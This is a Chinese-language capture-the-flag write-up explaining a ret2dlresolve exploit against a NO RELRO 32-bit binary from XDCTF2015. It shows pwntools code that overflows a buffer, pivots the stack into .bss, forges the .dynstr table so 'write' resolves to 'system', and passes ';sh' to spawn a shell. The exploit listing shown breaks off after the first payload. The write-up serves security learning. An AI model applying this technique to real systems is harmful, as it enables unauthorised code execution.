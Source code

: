 > payload的生长方向为：从new_stack_esp到new_stack_ebp（从低地址到高地址）
>

```python
dynstr=elf.get_section_by_name('.dynstr').data()
fake_dynstr=dynstr.replace('write','system')
strtab = 0x08049808  #.dynamic节中strtab的地址
payload2 = p32(0xdeadbeef)+p32(read_plt)+p32(0x080483A6)+p32(0)+ p32(strtab)+p32(7)+fake_dynstr 
#p32(0xdeadbeef)用来抵消leave中的pop ebp的影响
# push 20h;jmp plt[0]
p.sendline(payload2)
payload3 = p32(bss_addr+0x300+24)+';sh'
```

正常情况下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627882306588-f3608778-805a-4129-b84a-e3d85b473255.png)

篡改后：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627882404751-4a45d8be-cbce-491b-bbb3-c2c893a7669f.png)

之后直接让其跳转到push reloc_arg去执行_dl_runtime_resolve重新解析write函数为system：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627882794069-d0f7a42f-d871-4ba3-a1b2-9e5537ca29b4.png)

最后：

```python
payload3 = p32(bss_addr+0x300+24)+';sh'
```

要想正确的调用system就必须有参数payload3的作用是篡改.dynsym结构体和传入sh参数；换句话说就是执行的是system(p32(bss_addr+0x300+24)+';sh')，但是system(p32(bss_addr+0x300+24))肯定会执行失败，于是就会执行system('sh')：

> 不懂的可以了解一下Linux命令行的分号'';控制符
>

总结：这道题主要是利用了NO RELRO的.dynamic section可写缺陷，从而getshell。

一点补充：为什么不能直接篡改ELF String Table中的write为system？

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627884694219-d1ac629b-5654-4958-a4a0-245e3041d4a5.png)

因为ELF String Table不可写，详情见前面的各个section权限。exp如下：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_no_relro_32')
elf=ELF('./main_no_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804862b
leave_retn_gadget=0x0804851A #mov esp,ebp;pop ebp
three_pop_gadget=0x08048629
p.recvuntil('Welcome to XDCTF2015~!\n')

new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x500)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.sendline(payload1)

```